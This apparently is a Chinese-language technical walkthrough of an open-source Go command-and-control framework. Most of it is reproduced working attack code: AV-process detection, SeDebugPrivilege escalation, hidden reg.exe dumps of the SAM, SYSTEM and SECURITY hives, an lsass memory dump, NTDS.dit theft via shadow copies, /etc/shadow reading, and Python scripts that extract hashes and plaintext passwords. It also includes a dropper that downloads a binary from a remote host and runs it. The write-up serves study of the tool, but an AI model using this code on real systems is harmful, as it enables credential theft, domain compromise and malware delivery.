// Using getprop ro.build.version.release to get version of Android
cmd := exec.Command("getprop", "ro.build.version.release")
out, err := cmd.CombinedOutput()
if err != nil {
osVers = err.Error()
}
osVers = strings.TrimSpace(string(out))
} else if os.IsNotExist(err) {
//Getting Distro name
cmd := exec.Command("/bin/bash", "-c", "awk -F'=' '/^ID=/ {print $2}' /etc/os-release | tr -d '\"'")
outType, err := cmd.CombinedOutput()
if err != nil {
osType = err.Error()
}
osType = string(outType)
//Getting Distro Version
cmd1 := exec.Command("/bin/bash", "-c", "awk -F'=' '/^VERSION_ID=/ {print $2}' /etc/os-release | tr -d '\"'")
outVers, err := cmd1.CombinedOutput()
if err != nil {
osVers = err.Error()
}
osVers = string(outVers)
} else {
osType = "No Idea!"
osVers = "Couldn't Get!"
}
//Future check for AV on Linux
var av []string
av = append(av, "null")
return osType, osVers, av
}
返回的系统类型，系统版本，和杀毒列表
fingerprint_mac.go
//FingerPrint will get the version of the Operating System
func FingerPrint() (string, string, []string) {
var av []string
result := map[string]interface{}{}
av = append(av, "null")
pListFile, err := os.Open("/System/Library/CoreServices/SystemVersion.plist")
if err != nil {
//logging.Logger.Println(err)
}
defer pListFile.Close()
decoder := xml.NewDecoder(pListFile)
var workingKey string
for {
token, _ := decoder.Token()
if token == nil {
break
}
switch start := token.(type) {
case xml.StartElement:
switch start.Name.Local {
case "key":
var k string
err := decoder.DecodeElement(&k, &start)
if err != nil {
//logging.Logger.Println(err.Error())
}
workingKey = k
case "string":
var s string
err := decoder.DecodeElement(&s, &start)
if err != nil {
//logging.Logger.Println(err.Error())
}
result[workingKey] = s
workingKey = ""
}
}
}
return result["ProductName"].(string), result["ProductVersion"].(string), av
}
fingerprint_windows.go
import (
"strconv"
"strings"
"syscall"
"unsafe"
"golang.org/x/sys/windows/registry"
)
//Using code from https://github.com/mitchellh/go-ps/blob/4fdf99ab29366514c69ccccddab5dc58b8d84062/process_windows.go to conduct process searching
//Removed import for obfuscation reasons
// Process is the generic interface that is implemented on every platform
// and provides common operations for processes.
type process interface {
// Pid is the process ID for this process.
Pid() int
// PPid is the parent process ID for this process.
PPid() int
// Executable name running this process. This is not a path to the
// executable.
Executable() string
}
// Windows API functions
var (
modKernel32 = syscall.NewLazyDLL("kernel32.dll")
procCloseHandle = modKernel32.NewProc("CloseHandle")
procCreateToolhelp32Snapshot = modKernel32.NewProc("CreateToolhelp32Snapshot")
procProcess32First = modKernel32.NewProc("Process32FirstW")
procProcess32Next = modKernel32.NewProc("Process32NextW")
)
// Some constants from the Windows API
const (
ERROR_NO_MORE_FILES = 0x12
MAX_PATH = 260
)
// PROCESSENTRY32 is the Windows API structure that contains a process's
// information.
type PROCESSENTRY32 struct {
Size uint32
CntUsage uint32
ProcessID uint32
DefaultHeapID uintptr
ModuleID uint32
CntThreads uint32
ParentProcessID uint32
PriorityClassBase int32
Flags uint32
ExeFile [MAX_PATH]uint16
}
// WindowsProcess is an implementation of Process for Windows.
type WindowsProcess struct {
pid int
ppid int
exe string
}
func (p *WindowsProcess) Pid() int {
return p.pid
}
func (p *WindowsProcess) PPid() int {
return p.ppid
}
func (p *WindowsProcess) Executable() string {
return p.exe
}
func newWindowsProcess(e *PROCESSENTRY32) *WindowsProcess {
// Find when the string ends for decoding
end := 0
for {
if e.ExeFile[end] == 0 {
break
}
end++
}
return &WindowsProcess{
pid: int(e.ProcessID),
ppid: int(e.ParentProcessID),
exe: syscall.UTF16ToString(e.ExeFile[:end]),
}
}
func findProcess(pid int) process {
ps := processes()
for _, p := range ps {
if p.Pid() == pid {
return p
}
}
return nil
}
func processes() []process {
handle, _, _ := procCreateToolhelp32Snapshot.Call(
0x00000002,
0)
if handle < 0 {
return nil
}
defer procCloseHandle.Call(handle)
var entry PROCESSENTRY32
entry.Size = uint32(unsafe.Sizeof(entry))
ret, _, _ := procProcess32First.Call(handle, uintptr(unsafe.Pointer(&entry)))
if ret == 0 {
return nil
}
results := make([]process, 0, 50)
for {
results = append(results, newWindowsProcess(&entry))
ret, _, _ := procProcess32Next.Call(handle, uintptr(unsafe.Pointer(&entry)))
if ret == 0 {
break
}
}
return results
}
//End of https://github.com/mitchellh/go-ps code
//FingerPrint will get the version of the Operating System - This case call Windows API GetVersion
func FingerPrint() (string, string, []string) {
//Get OS Vers (e.g. 7 or 10)
k, err := registry.OpenKey(registry.LOCAL_MACHINE, `SOFTWARE\Microsoft\Windows NT\CurrentVersion`, registry.QUERY_VALUE)
if err != nil {
//logging.Logger.Println(err.Error())
}
defer k.Close()
osVers, _, err := k.GetIntegerValue("CurrentMajorVersionNumber")
if err != nil {
//logging.Logger.Println(err.Error())
}
//Get OS Type (Pro vs Enterprise)
pn, _, err := k.GetStringValue("ProductName")
if err != nil {
//logging.Logger.Println(err.Error())
}
osType := lastString(strings.Split(pn, " "))
//Get AV
//Can add to this by adding to the switch case for any other type of AV you want to find
var av []string
p := processes()
for _, p1 := range p {
switch {
case p1.Executable() == "cb.exe":
av = append(av, "CB")
case p1.Executable() == "CylanceSvc.exe":
av = append(av, "Cylance")
}
}
return osType, strconv.FormatUint(osVers, 10), av
}
func lastString(ss []string) string {
return ss[len(ss)-1]
}
屏幕截图
调用的这个库github.com/kbinani/screenshot，支持多个操作系统的屏幕截图，下这个库的原理是底层通过c来调用每个系统的内核函数实现的。
凭证dump
lsadump
LSA是Windows系统本地安全认证的模块。它会存储用户登录其他系统和服务用户名和密码，如VPN网络连接、ADSL网络连接、FTP服务、Web服务。通过搜集这些信息，便于对服务器进行渗透测试。
需要管理员权限，先提升到debug权限
func SePrivEnable() {
var tokenHandle windows.Token
prcHandle, err := windows.GetCurrentProcess()
if err != nil {
//logging.Logger.Println(err)
}
windows.OpenProcessToken(
prcHandle, // HANDLE Process Handle
windows.TOKEN_ADJUST_PRIVILEGES, // DWORD Desired Access
&tokenHandle, // PHANDLE TokenHandle
)
/*
typedef struct _LUID {
DWORD LowPart;
LONG HighPart;
} LUID, *PLUID;
*/
var luid windows.LUID // Describes a local identifier for an adapter struct above
/*
BOOL LookupPrivilegeValueW(
LPCWSTR lpSystemName,
LPCWSTR lpName,
PLUID lpLuid
);
*/
err = windows.LookupPrivilegeValue(nil, windows.StringToUTF16Ptr("SeDebugPrivilege"), &luid)
if err != nil {
//logging.Logger.Println("LookupPrivilegeValueW Failed: ", err)
}
privilege := windows.Tokenprivileges{}
privilege.PrivilegeCount = 1
privilege.Privileges[0].Luid = luid
privilege.Privileges[0].Attributes = windows.SE_PRIVILEGE_ENABLED
/*
BOOL AdjustTokenPrivileges(
HANDLE TokenHandle,
BOOL DisableAllPrivileges,
PTOKEN_PRIVILEGES NewState,
DWORD BufferLength,
PTOKEN_PRIVILEGES PreviousState,
PDWORD ReturnLength
);
*/
err = windows.AdjustTokenPrivileges(tokenHandle, false, &privilege, 0, nil, nil)
if err != nil {
//logging.Logger.Println("AdjustTokenPrivileges Failed: ", err)
}
}
接着用注册表导出文件即可
cmdName := "cmd.exe"
sysFile := path.Join("C:", "Windows", "system")
secFile := path.Join("C:", "Windows", "security")
cmdArgs := []string{"/c", "reg.exe save HKLM\\SYSTEM " + sysFile}
cmd := exec.Command(cmdName, cmdArgs...)
cmd.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
cmd.Run()
cmdArgs2 := []string{"/c", "reg.exe save HKLM\\SECURITY " + secFile}
cmd2 := exec.Command(cmdName, cmdArgs2...)
cmd2.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
cmd2.Run()
sysData, err := ioutil.ReadFile(sysFile)
if err != nil {
logging.Logger.Println(err)
}
secData, err := ioutil.ReadFile(secFile)
if err != nil {
logging.Logger.Println(err)
}
python解密
import sys
from impacket.examples.secretsdump import LocalOperations, LSASecrets
from impacket import winregistry
from binascii import hexlify, unhexlify
from six import b
import json
def main(sysF, secF):
bootkey = getBootKey(sysF)
#Borrowed Code from https://github.com/byt3bl33d3r/CrackMapExec/blob/48fd338d228f6589928d5e7922df4c7cd240a287/cme/protocols/smb.py#L848
#Changed to save LSA Secrets and cached creds to JSON format
def add_lsa_secret(secret):
add_lsa_secret.secrets += 1
lsaName, lsaHash = secret.split(':', 1)
secdict = {"LSAName": lsaName, "LSAHash": lsaHash}
jsonFormat = json.dumps(secdict)
print(jsonFormat)
add_lsa_secret.secrets = 0
LSA = LSASecrets(secF, bootkey, remoteOps=None, isRemote=False, perSecretCallback=lambda secretType, secret: add_lsa_secret(secret))
LSA.dumpCachedHashes()
LSA.dumpSecrets()
# From Impacket https://github.com/SecureAuthCorp/impacket/blob/69fee03fd8c120ec7ed0b1e630f7dcc5780fa3f9/impacket/examples/secretsdump.py#L735
def getBootKey(system):
# Local Version whenever we are given the files directly
bootKey = b''
tmpKey = b''
winreg = winregistry.Registry(system, False)
# We gotta find out the Current Control Set
currentControlSet = winreg.getValue('\\Select\\Current')[1]
currentControlSet = "ControlSet%03d" % currentControlSet
for key in ['JD', 'Skew1', 'GBG', 'Data']:
ans = winreg.getClass('\\%s\\Control\\Lsa\\%s' % (currentControlSet, key))
digit = ans[:16].decode('utf-16le')
tmpKey = tmpKey + b(digit)
transforms = [8, 5, 4, 2, 11, 9, 13, 3, 0, 6, 1, 12, 14, 10, 15, 7]
tmpKey = unhexlify(tmpKey)
for i in range(len(tmpKey)):
bootKey += tmpKey[transforms[i]:transforms[i] + 1]
return bootKey
if __name__ == "__main__":
main(sys.argv[1], sys.argv[2])
minidump
用于dump指定进程内存，一般用于dumplsass进程（它用于本地安全和登陆策略）中存储的明文登录密码
//DllOptions is used for passed variables to DLLS
type DllOptions struct {
Options []string
}
var kernel32 = syscall.NewLazyDLL("kernel32.dll")
var procOpenProcess = kernel32.NewProc("OpenProcess")
var procCreateFileW = kernel32.NewProc("CreateFileW")
var procCloseHandle = kernel32.NewProc("CloseHandle")
var dbghelp = syscall.NewLazyDLL("Dbghelp.dll")
var procMiniDumpWriteDump = dbghelp.NewProc("MiniDumpWriteDump")
//Set process to be SeDebugPrivileges
privileges.SePrivEnable()
pid, _ := strconv.Atoi(options.Options[1])
processHandle, _, _ := procOpenProcess.Call(uintptr(0xFFFF), uintptr(1), uintptr(pid))
p, err := ps.FindProcess(pid)
var dmpFile = path.Join("C:", "Windows", p.Executable())
if _, err := os.Stat(dmpFile); os.IsNotExist(err) {
os.Create(dmpFile)
}
path, _ := syscall.UTF16PtrFromString(dmpFile)
fileHandle, _, _ := procCreateFileW.Call(uintptr(unsafe.Pointer(path)), syscall.GENERIC_WRITE, syscall.FILE_SHARE_READ|syscall.FILE_SHARE_WRITE, 0, syscall.OPEN_EXISTING, syscall.FILE_ATTRIBUTE_NORMAL, 0)
ret, _, err := procMiniDumpWriteDump.Call(uintptr(processHandle), uintptr(pid), uintptr(fileHandle), 0x00061907, 0, 0, 0)
procCloseHandle.Call(uintptr(fileHandle))
if ret != 0 {
logging.Logger.Println("Process memory dump successful")
} else {
log.Fatal("Process memory dmp error: ", err)
}
fileData, err := ioutil.ReadFile(dmpFile)
if err != nil {
logging.Logger.Println(err)
}
dump的python脚本
# Idea and most code from Romain Bentz (pixis - @hackanddo)
# https://github.com/Hackndo/lsassy/blob/master/lsassy/modules/parser.py
# need to pip install pypykatz
from pypykatz.pypykatz import pypykatz
import sys
import json
def main(file):
#cred_dict= {'luid': [], 'creds': []}
cred_dict= []
#cred_dict = {'ssp', 'domain', 'username', 'password', 'lmhash', 'nthash'}
dmpContents = open(file, "rb")
pypyParse = pypykatz.parse_minidump_external(dmpContents)
dmpContents.close()
ssps = ['msv_creds', 'wdigest_creds', 'ssp_creds', 'livessp_creds', 'kerberos_creds', 'credman_creds', 'tspkg_creds']
for luid in pypyParse.logon_sessions:
for ssp in ssps:
for cred in getattr(pypyParse.logon_sessions[luid], ssp, []):
domain = getattr(cred, "domainname", None)
username = getattr(cred, "username", None)
password = getattr(cred, "password", None)
LMHash = getattr(cred, "LMHash", None)
NThash = getattr(cred, "NThash", None)
if LMHash is not None:
LMHash = LMHash.hex()
if NThash is not None:
NThash = NThash.hex()
if (not all(v is None or v == '' for v in [password, LMHash, NThash])
and username is not None
and not username.endswith('$')
and not username == ''):
if not LMHash:
LMHash = "aad3b435b51404eeaad3b435b51404ee"
if not password:
password = "null"
creds = {'ssp':ssp, 'domain':domain, 'username':username, 'password':password, 'lmhash':LMHash, 'nthash':NThash}
cred_dict.append(creds)
cred_json = json.dumps(cred_dict)
print(cred_json)
if __name__ == "__main__":
main(sys.argv[1])
ntdsdump
域内用户HASH是存在域控ntds.dit中的， 它的存放位置是C:\Windows\ntds.dit。ntds.dit在系统运行过程中是被系统锁定的，无法操作，因此第一步是先把ntds.dit复制一份出来，然后导出其中的用户hash。
NTDSDump将使用VSS方法转储ntds.dit文件
cmdName := "cmd.exe"
ntds := "C:\\Windows\\temp\\ntds.dit"
system := "C:\\Windows\\temp\\SYSTEM"
var reply int
cmdArgs := []string{"/c", "vssadmin create shadow /for=c:"}
cmd := exec.Command(cmdName, cmdArgs...)
cmd.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
cmd.Run()
cmdArgs2 := []string{"/c", "copy \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\Windows\\NTDS\\NTDS.dit" + ntds}
cmd2 := exec.Command(cmdName, cmdArgs2...)
cmd2.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
cmd2.Run()
cmdArgs3 := []string{"/c", "copy \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\Windows\\System32\\config\\SYSTEM" + system}
cmd3 := exec.Command(cmdName, cmdArgs3...)
cmd3.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
cmd3.Run()
cmdArgs4 := []string{"/c", "vssadmin delete shadows /for=c: /oldest"}
cmd4 := exec.Command(cmdName, cmdArgs4...)
cmd4.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
cmd4.Run()
ntdsData, err := ioutil.ReadFile(ntds)
if err != nil {
logging.Logger.Println("Error reading ntds: ", err)
}
systemData, err := ioutil.ReadFile(system)
if err != nil {
logging.Logger.Println(err)
}
samdump
- 在Windows操作系统上，sam数据库（C:\Windows\System32\config\sam）里保存着本地用户的hash。
- 在本地认证的流程中，作为本地安全权限服务进程lsass.exe也会把用户密码缓存在内存中（dmp文件）。
SAMDump将获取SYSTEM，SAM和SECURITY配置单元文件，然后从它们中提取哈希
cmdName := "cmd.exe"
samFile := path.Join("C:", "Windows", "samfile")
systemFile := path.Join("C:", "Windows", "systemfile")
securityFile := path.Join("C:", "Windows", "securityfile")
cmdArgs := []string{"/c", "reg.exe save HKLM\\SAM " + samFile}
cmd := exec.Command(cmdName, cmdArgs...)
cmd.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
cmd.Run()
cmdArgs2 := []string{"/c", "reg.exe save HKLM\\SYSTEM " + systemFile}
cmd2 := exec.Command(cmdName, cmdArgs2...)
cmd2.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
cmd2.Run()
cmdArgs3 := []string{"/c", "reg.exe save HKLM\\SECURITY " + securityFile}
cmd3 := exec.Command(cmdName, cmdArgs3...)
cmd3.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
cmd3.Run()
samData, err := ioutil.ReadFile(samFile)
if err != nil {
logging.Logger.Println(err)
}
systemData, err := ioutil.ReadFile(systemFile)
if err != nil {
logging.Logger.Println(err)
}
securityData, err := ioutil.ReadFile(securityFile)
if err != nil {
logging.Logger.Println(err)
}
python解密脚本
import sys
from impacket.examples.secretsdump import LocalOperations, SAMHashes
from impacket import winregistry
from binascii import hexlify, unhexlify
from six import b
import json
def main(sysF, samF):
bootkey = getBootKey(sysF)
#Borrowed code from https://github.com/byt3bl33d3r/CrackMapExec/blob/48fd338d228f6589928d5e7922df4c7cd240a287/cme/protocols/smb.py#L816
#Changed to save the hashes as a JSON object as this will be needed for our Golang structs
def print_sam_hash(sam_hash):
print_sam_hash.sam_hashes += 1
username,_,lmhash,nthash,_,_,_ = sam_hash.split(':')
hash_dict = {'Username':username, 'NTLM':lmhash+':'+nthash}
print(json.dumps(hash_dict))
print_sam_hash.sam_hashes = 0
SAM = SAMHashes(samF, bootkey, isRemote=False, perSecretCallback=lambda secret: print_sam_hash(secret))
SAM.dump()
# From Impacket https://github.com/SecureAuthCorp/impacket/blob/69fee03fd8c120ec7ed0b1e630f7dcc5780fa3f9/impacket/examples/secretsdump.py#L735
def getBootKey(system):
# Local Version whenever we are given the files directly
bootKey = b''
tmpKey = b''
winreg = winregistry.Registry(system, False)
# We gotta find out the Current Control Set
currentControlSet = winreg.getValue('\\Select\\Current')[1]
currentControlSet = "ControlSet%03d" % currentControlSet
for key in ['JD', 'Skew1', 'GBG', 'Data']:
ans = winreg.getClass('\\%s\\Control\\Lsa\\%s' % (currentControlSet, key))
digit = ans[:16].decode('utf-16le')
tmpKey = tmpKey + b(digit)
transforms = [8, 5, 4, 2, 11, 9, 13, 3, 0, 6, 1, 12, 14, 10, 15, 7]
tmpKey = unhexlify(tmpKey)
for i in range(len(tmpKey)):
bootKey += tmpKey[transforms[i]:transforms[i] + 1]
return bootKey
if __name__ == "__main__":
main(sys.argv[1], sys.argv[2])
shadowdump
针对linux
- /etc/shadow 文件，用于存储 Linux 系统中用户的密码信息，又称为“影子文件”。
- /etc/passwd 文件，是系统用户配置文件，存储了系统中所有用户的基本信息，并且所有用户都可以对此文件执行读操作。
ShadowDump将抓取/etc /passwd和/etc /shadow文件，并将其格式化为可破解的hashcat文件
shadowData, err := ioutil.ReadFile("/etc/shadow")
if err != nil {
logging.Logger.Println("Couldn't read shadow file: ", err)
}
passData, err := ioutil.ReadFile("/etc/passwd")
if err != nil {
logging.Logger.Println("Couldn't read passwd file: ", err)
}
Module - droppers
本来go生成的文件就挺大，一些特定的模块（如凭证dump、屏幕截图）都是单独的，它在传输过程中如何传输的。
deimos是两种方案，一种是将单独模块编译好的数据通过dll反射调用，但这个为让它接收命令的时候获取，如果文件很大，可能会有很多问题。(虽然有这个方案，但是大多数还是通过droppers来执行的)
第二种就是通过droppers，什么是droppers，看了代码简单理解就是一个简单的下载者,它根据系统使用多种语言编写

它代码也很简单，就是通过socket连接，获取数据，写出数据，最后执行，以一个简单的python代码为例。
import socket
import os
import time
import platform
import stat
port=4153 #MAKE DYNAMIC
host="10.20.80.134" #MAKE DYNAMIC
outputfile="C:\\ProgramData\\nice.exe" #MAKE DYNAMIC
padding= b'\x00\x00\x00\x00\x00\x00\x00\x27'
name="39519bc2-9c07-4e76-8774-0554edcaf7c4" #MAKE DYNAMIC
OS="W"
if(platform.machine()== "AMD64"):
ARCH="6"
else:
ARCH="3"
PROC=""
if("Intel" in platform.processor()):
PROC="I"
elif("ARM" in platform.processor()):
PROC="A"
fullname = padding + bytes(name, "utf-8") + bytes(OS, "utf-8") + bytes(ARCH, "utf-8") + bytes(PROC, "utf-8")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(fullname)
out=b''
while True:
rec = s.recv(1024)
if not rec:
break
out += rec
outfile = open(outputfile,"wb")
outfile.write(out)
outfile.close()
s.close()
st = os.stat(outputfile)
os.chmod(outputfile, st.st_mode | stat.S_IEXEC)
os.system(outputfile)
但是这会让文件落地，增大了风险。
End
因为只是虚拟机跑了下，有个小困惑，它里面module加载的部分都是jsonprc形式，但是监听的域名都是127.0.0.1，看代码好像也没有更改这个的地方。
整体来看，多人协作，搭建一个web大家可以一起操作的模式挺好的，用Go编写的也挺好的，但木马层面的技术比较低，没怎么考虑到隐蔽性，生成一个木马因为需要混淆也要很久很久，不过依然是值得学习的c2软件。